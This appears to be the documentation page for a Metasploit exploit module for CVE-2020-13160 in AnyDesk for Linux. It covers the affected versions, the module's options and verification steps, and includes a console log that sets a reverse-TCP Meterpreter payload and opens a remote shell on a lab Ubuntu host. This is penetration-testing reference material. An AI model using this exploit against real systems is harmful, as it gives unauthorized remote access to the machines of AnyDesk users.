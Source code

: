 ## Vulnerable Application

This vulnerability affects Linux versions 5.5.2 and older. Old versions of AnyDesk can be downloaded from their site at
https://download.anydesk.com/linux/. Use the `.deb` package for an Ubuntu installation.

The `check` method on this exploit will send an AnyDesk discovery frame to the target host, which will cause the
target to respond with its own discovery frame. Each of these are sent from a random source port to the default AnyDesk
discovery service port of 50001. To configure the listening service in Metasploit, change the `SRVHOST` and `SRVPORT`
options. The exploit will use this method to detect the remote hostname and confirm that the operating system is Linux
before proceeding.

## Verification Steps

1. Install the application
1. Start the AnyDesk GUI. A window will open, leave it running.
1. Start `msfconsole`
1. Do: `use exploit/linux/misc/cve_2020_13160_anydesk`
1. Set the module options
1. Do: `exploit`
1. You should get a shell.

## Options

### SRVHOST

This option is used to specify the host on which to listen for discovery frames from AnyDesk.

### SRVPORT

This option is used to specify the port on which to listen for discovery frames from AnyDesk.

## Scenarios

### Ubuntu 18.04 x64

```
msf5 exploit(linux/misc/cve_2020_13160_anydesk) > use exploit/linux/misc/cve_2020_13160_anydesk 
msf5 exploit(linux/misc/cve_2020_13160_anydesk) > set RHOSTS 192.168.159.33
RHOSTS => 192.168.159.33
msf5 exploit(linux/misc/cve_2020_13160_anydesk) > set PAYLOAD linux/x64/meterpreter/reverse_tcp 
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf5 exploit(linux/misc/cve_2020_13160_anydesk) > check
[*] 192.168.159.33:50001 - The service is running, but could not be validated. Remote hostname: ubuntu
msf5 exploit(linux/misc/cve_2020_13160_anydesk) > exploit

[*] Started reverse TCP handler on 192.168.250.87:4444 
[*] Discovered the remote service (hostname: ubuntu, os: linux)
[*] Sent exploit frame, waiting for the GUI to refresh to trigger the vulnerability...
[*] Sending stage (3012516 bytes) to 192.168.250.237
[*] Meterpreter session 1 opened (192.168.250.87:4444 -> 192.168.250.237:51044) at 2020-06-17 10:21:44 -0400

meterpreter > getuid
Server username: no-user @ ubuntu (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter > sysinfo
Computer     : 192.168.159.33
OS           : Ubuntu 18.04 (Linux 5.3.0-59-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
